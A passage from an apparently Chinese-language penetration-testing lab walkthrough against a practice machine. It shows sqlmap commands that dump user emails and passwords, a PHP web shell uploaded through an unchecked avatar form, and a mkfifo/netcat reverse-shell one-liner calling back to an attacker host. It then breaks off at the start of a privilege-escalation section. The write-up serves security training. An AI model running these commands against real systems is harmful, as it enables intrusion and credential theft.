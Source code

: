 `sqlmap -u "http://192.168.1.10/search.php?location=emails&query=1" --random-agent --batch -D socialnetwork -T users --columns`

![截屏2021-09-11 上午10.37.44](https://tva1.sinaimg.cn/large/008i3skNgy1guchl14drrj60g00g240w02.jpg)

真不错,这次表中字段存在用户的更多信息,我们将数据提取出来

`sqlmap -u "http://192.168.1.10/search.php?location=emails&query=1" --random-agent --batch -D socialnetwork -T users -C user_firstname,user_email,user_password --dump`

![截屏2021-09-11 上午10.44.31](https://tva1.sinaimg.cn/large/008i3skNly1guchs5q7a2j612k02wgmp02.jpg)

也许一会我们可以用admin用户登陆再看看是否有其他功能?

(注:使用admin登陆后,功能点类似,此处不再赘述)

##### 2.用户信息界面

我们点击profile功能,竟然显示我们当前没有发布post,没有额外的功能点.我们先随意发布一条post,再回来看看

![截屏2021-09-11 上午10.53.43](https://tva1.sinaimg.cn/large/008i3skNly1guci1o9hldj61ax0u0djb02.jpg)

可以看到,左下角有一个上传头像的功能点.看到上传文件,我们不自觉的想到文件上传漏洞.不如试试看吧~

一般来说,文件上传的检测分为客户端检测和服务端检测.

客户端检测即使用js代码验证文件后缀名等信息,很好绕过

服务端检测则是通过后缀名、文件头等等信息进行验证,需要通过解析漏洞/00截断等功能进行绕过

我们先别想太复杂,万一它没有防护呢~

我们上传一个shell.php文件试试看

居然成功了!我们右键图片->在新标签页中打开图片,发现文件名为3.php,想必是经过了重命名,不过好在后缀名还是php,我们尝试用蚁剑链接吧~

![截屏2021-09-11 上午10.59.13](https://tva1.sinaimg.cn/large/008i3skNly1guci7fzfixj61ax0u0n0902.jpg)

成功获得蚁剑shell~

不过呢,蚁剑的shell可交互性不强,我们尝试用过nc反弹一个shell吧

此次,我们不用串联nc,而是通过fifo的帮助,只通过连接一个nc即实现shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.1.5 4444 > /tmp/f`

成功获得一个低级shell.

我们使用`python -c "import pty;pty.spawn('/bin/bash')"`获得一个交互级的shell

再通过stty升级FULL TTY shell.详情请查阅打靶第四周.

![截屏2021-09-11 下午10.05.46](https://tva1.sinaimg.cn/large/008i3skNgy1gud1gzqr19j61be078tap02.jpg)

## 提权

### 1.时间的力量

查阅内核版本后,发现为ubuntu18.04.还记得在第一周的打靶过程中和大家介绍的ubuntu最新漏洞吗?
